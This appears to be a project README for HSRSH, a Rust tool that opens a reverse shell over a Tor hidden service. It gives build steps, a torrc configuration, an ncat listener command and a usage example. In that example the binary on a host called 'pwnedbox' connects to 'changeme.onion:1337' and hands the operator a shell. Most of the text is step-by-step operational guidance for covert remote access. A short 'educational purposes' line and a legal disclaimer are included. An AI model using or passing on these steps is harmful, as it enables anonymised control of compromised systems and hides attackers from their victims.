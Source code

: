 # HSRSH

Hidden Service Reverse Shell, aka HSRSH

This was a quickly written tool for demonstrating a reverse shell over a hidden service all in
one binary and an excuse to play with Rust. Solely for educational purposes.

## Building

```
$ git clone https://github.com/dustyfresh/hsrsh

$ cd hsrsh

$ cargo build --release

# Release binary is ./target/release/hsrsh
```


1. Configure your hidden service server you will be accepting the shell connection on. Make sure netcat is installed, and add this to your ```torrc```, and then start tor

  ```
    HiddenServiceDir /var/lib/tor/hidden_service/
    HiddenServicePort 1337 127.0.0.1:1337
  ```
  Once Tor is bootstrapped you can get the onion address from the hidden service directory

  ```
  $ cat /var/lib/tor/hidden_service/hostname
  changeme.onion
  ```
2. Start listener on the hidden service using ```ncat```. MAKE SURE TO ONLY ALLOW LOCALHOST CONNECTIONS

  ```
    user@localhost:~$ ncat --allow 127.0.0.1 -nvlp 1337
    Ncat: Listening on 0.0.0.0:1337
  ```

3. Execute reverse shell binary, it will create a local tor instance and connect to your listener. This takes about 15 seconds.
    ```
    user@pwnedbox:~$ ./hsrsh
    USAGE:
    	./hsrsh changeme.onion:1337

    user@pwnedbox:~$ ./hsrsh changeme.onion:1337
    ```

4. If everything is setup properly your shell should connect after about 20 seconds or so assuming the tor and internet connection is stable.

  ```    
    user@localhost:~$ ncat --allow 127.0.0.1 -nvlp 1337
    Ncat: Version 7.60 ( https://nmap.org/ncat )
    Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
    Ncat: Listening on :::1337
    Ncat: Listening on 0.0.0.0:1337
    Ncat: Connection from 127.0.0.1.
    Ncat: Connection from 127.0.0.1:45964.
    user@pwnedbox:~$ uptime
     13:37:02 up 16 days, 46 min,  1 user,  load average: 0.82, 0.93, 1.43
  ```

To do:
  - support tls
  - windows support
  - Better / more Rust-like error handling

Things that I read that helped me out a lot with this:
- https://github.com/isdrupter/onionslicer
- https://stackoverflow.com/questions/48958814/what-is-the-rust-equivalent-of-a-reverse-shell-script-written-in-python

## Disclaimer
This program is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the GNU General Public License v3.0 for more details at http://www.gnu.org/licenses/gpl-3.0.html.

Usage of hsrsh for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.
